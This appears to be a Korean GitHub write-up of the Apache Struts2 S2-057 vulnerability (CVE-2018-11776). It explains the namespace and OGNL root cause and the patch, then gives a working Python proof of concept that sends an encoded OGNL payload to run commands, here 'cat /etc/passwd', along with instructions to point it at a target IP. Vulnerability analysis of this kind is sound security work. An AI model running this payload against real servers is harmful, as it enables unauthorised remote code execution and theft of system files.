

# Apache Struts2 RCE Vulnearbility(S2-057)

## Information
- CVE : 2018-11776
- 해당 소프트웨어 : Apache Struts
- 해당 버전 : 2.3<2.3.34 / 2.5<2.5.16
- 취약점 유형 : 입력값 검증 문제

## Root Cause
이 취약점은 Struts에서 신뢰할 수 없는 사용자 데이터의 유효성 검증이 불충분하여 발생한다. 이 취약점은 아래 두 가지 조건이 만족할 때 발생한다. 
 1) alwaysSelectFullNamespace가 True인 경우로, Conventional 플러그인을 사용하는 경우 자동으로 이 값은 True로 설정된다. 
 2) 어플리케이션이 actions를 사용하는데, namespace value가 세팅되어있지 않거나, wildcard namespace가 설정된 경우("/*"같은 경우). 이는 Struts 설정 파일에서 설정할 수 있지만, Struts Convention plugin을 사용하는 경우에는 java 코드상에 설정되어 있다. 

### namespace란?
Struts에서 namespace는 동작 그룹을 의미한다. 같은 이름의 두 동작은 서로 다른 두 개의 namespace에 독립적으로 존재할 수 있다. 
가령, http://localhost:8080/koromoon/index.action 에서, /은 namespace, analysis.action은 작업을 의미한다. 또한, http://localhost:8080/koromoon/hacker/analysis.action 에서 hacker가 namespace, 그 으래의 analysis.action은 작업이다. 
이 취약점의 경우, 웹 응용 프로그램에서 namespace를 지정하지 않고 작업을 사용하거나 /*과 같은 wildcard namespace를 사용하는 경우에 문제가 발생한다. Struts가 주어진 작업에 대한 namespace를 찾을 수 없으면, 공격자가 지정한 naespace를 취하여 OGNL 표현식으로 평가하여 웹 어플리케이션에 원격코드실행을 할 수 있다. OGNL(객체 그래프 탐색 언어)는 Apache Struts의 동작을 사용자 정의하는 데 사용되는 언어이다. 

## Patch
2.5.16에서 2.5.17로 패치된 코드를 보면, 악의적인 코드가 OGNL 형식으로 주입되는걸 방지하기 위해 화이트리스트 기능을 하는 cleanupNamespaceName 메소드를 생성함을 볼 수 있음. 

## PoC
```python
import requests
# Simple PoC for the Apache Struts vuln CVE-2018-11776
# @atucom

def runCMD(command):
    target = 'http://127.0.0.1:8080/struts3-showcase/'
    payload = '%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27' + command + '%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/actionChain1.action'
    return requests.get(target + payload).text

print(runCMD('cat /etc/passwd'))
```

## How to run exploit?
취약한 버전의 apache struts가 운용된 상태에서, target IP 설정 후 PoC 실행. 
## Reference
- [Apache Struts 2 Wiki](https://cwiki.apache.org/confluence/display/WW/S2-057)
- [Apache Struts Vulnerability - CVE-2018-11776](https://blog.semmle.com/remote-code-execution-vulnerability-in-apache-struts-cve-2018-11776/)
- [KOROMOOON : Apache Struts2 원격실행코드 취약점 (S2-057)](https://koromoon.blogspot.com/2018/09/cve-2018-11776-apache-struts2-s2-057.html)_
- [github : atucom/CVE-2018-11776-PoC.py](https://gist.github.com/atucom/32eeeea5972d31f160816db7a1d62209)
